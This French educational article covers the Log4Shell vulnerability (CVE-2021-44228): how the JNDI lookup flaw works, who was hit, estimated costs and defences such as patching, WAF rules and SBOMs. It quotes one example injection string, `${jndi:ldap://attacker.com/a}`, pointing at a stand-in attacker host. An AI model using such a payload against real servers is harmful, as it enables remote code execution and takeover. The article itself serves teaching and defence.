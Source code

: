 ```yaml
---
title: "TP 4 : Log4Shell : La faille Java qui a ébranlé Internet"
excerpt: "En 2021, une faille critique dans la bibliothèque Log4j a exposé des millions d'applications Java à des attaques à distance. Cet article analyse la vulnérabilité, les impacts mondiaux, et les stratégies de défense pour prévenir une exploitation future."
coverImage: "https://media.csoonline.com/images/article/2021/12/log4j_shell_log4shell_vulnerability_security_threat_danger_by_tiero_gettyimages-1317172885_2400x1600-100916381-large.jpg"
date: "2025-07-02T11:00:00.000Z"
author:
    name: JJ Kasper
    picture: "/assets/blog/authors/jj.jpeg"
ogImage:
    url: "https://media.csoonline.com/images/article/2021/12/log4j_shell_log4shell_vulnerability_security_threat_danger_by_tiero_gettyimages-1317172885_2400x1600-100916381-large.jpg"
---
```


Découverte en décembre 2021, **Log4Shell** est l’une des vulnérabilités les plus graves jamais identifiées. Présente dans la bibliothèque Java **Apache Log4j**, elle permet à un attaquant d’exécuter du code arbitraire à distance avec une simplicité déconcertante. Son impact est colossal, affectant des millions de serveurs dans le monde.

## Quelle est la vulnérabilité exploitée ?

La vulnérabilité, identifiée sous le nom **CVE-2021-44228**, affecte la bibliothèque de journalisation **Apache Log4j 2**, très utilisée dans les applications Java.

Le problème réside dans le traitement des chaînes de caractères contenant des expressions **JNDI** (Java Naming and Directory Interface), comme `${jndi:ldap://attacker.com/a}`. Log4j les interprète sans restriction, permettant à un attaquant de forcer l’application à charger du code malveillant depuis un serveur distant.

Cette faille est une **vulnérabilité d'exécution de code à distance (RCE)** accessible **sans authentification**.

## Comment l’attaque s’est-elle déroulée ?

Les attaquants ont simplement injecté des expressions `${jndi:...}` dans des champs de saisie (user-agent, formulaires, chat, logs d’erreur, etc.). Dès qu’un serveur vulnérable loguait cette chaîne, Log4j contactait un serveur LDAP malveillant et téléchargeait le code à exécuter, ouvrant ainsi la porte à une prise de contrôle totale.

Des **bots d'exploitation automatisés** ont rapidement scanné Internet pour exploiter la faille à grande échelle. L'attaque ne nécessite **aucune interaction humaine** ni authentification préalable.

## Qui a été touché ?

Pratiquement toutes les entreprises utilisant Java via :

-   **Serveurs Minecraft**, massivement exploités dès les premières heures
-   **Cloud providers** : AWS, Google Cloud, Azure
-   **Applications d’entreprise** : Elasticsearch, Apache Struts, Spring Boot, etc.
-   **Entreprises tech** : Apple, Twitter, Amazon, Cloudflare
-   **Secteur public** : ministères, collectivités, systèmes critiques exposés

## Quels ont été les impacts ?

-   **Fuite de données**, accès à distance, installation de backdoors
-   **Exploitation pour crypto-minage (cryptojacking)** et déploiement de ransomwares
-   **Stress intense sur les équipes de sécurité**
-   **Risque durable** : la faille est difficile à détecter et les dépendances Java sont omniprésentes

Certains chercheurs ont détecté **des millions de tentatives d’exploitation en moins de 48 heures**.

## Quel coût estimé ?

-   **Petite entreprise** : ~10 000 € à 100 000 € (en fonction de l'exposition et de la remédiation)
-   **Moyenne entreprise** : ~200 000 € à 1 million €
-   **Grande entreprise** : Plusieurs **dizaines de millions**
    -   Gartner estime que la faille pourrait coûter **plus de 10 milliards $** à l’échelle mondiale

## Comment s’en protéger ?

1. **Mettre à jour Log4j** vers la version 2.17 ou supérieure (ou remplacer la bibliothèque)
2. **Utiliser des firewalls applicatifs (WAF)** pour bloquer les chaînes JNDI
3. **Désactiver les résolutions JNDI dans Log4j**
4. **Surveiller les logs et endpoints** à la recherche d’expressions suspectes
5. **Recenser toutes les dépendances Java** et les auditer
6. **Appliquer une stratégie de Software Bill of Materials (SBOM)** pour suivre les composants logiciels

## Pourquoi est-ce difficile à éviter ?

-   Log4j est **intégré profondément** dans de nombreuses bibliothèques et frameworks Java
-   De nombreux développeurs ignoraient qu’ils utilisaient Log4j via une **dépendance transitive**
-   Les chaînes d’exploitation peuvent être **obfusquées**, rendant les tentatives d’injection difficiles à détecter
-   Certains environnements sont **très lents à patcher** (IoT, applications legacy, etc.)

## Dans le contexte de votre entreprise, que feriez-vous ?

-   Mettre en place une **cartographie des dépendances** (via des outils comme Syft ou OWASP Dependency-Check)
-   Déployer une **stratégie de détection d'anomalies dans les logs**
-   **Scanner les systèmes exposés** avec des outils comme log4j-detector
-   Mettre en œuvre un **plan de mise à jour continu** pour les dépendances critiques
-   Exiger un **SBOM** pour tous les nouveaux composants logiciels utilisés
-   Tester régulièrement l’environnement avec des **scans de vulnérabilités automatisés**

---
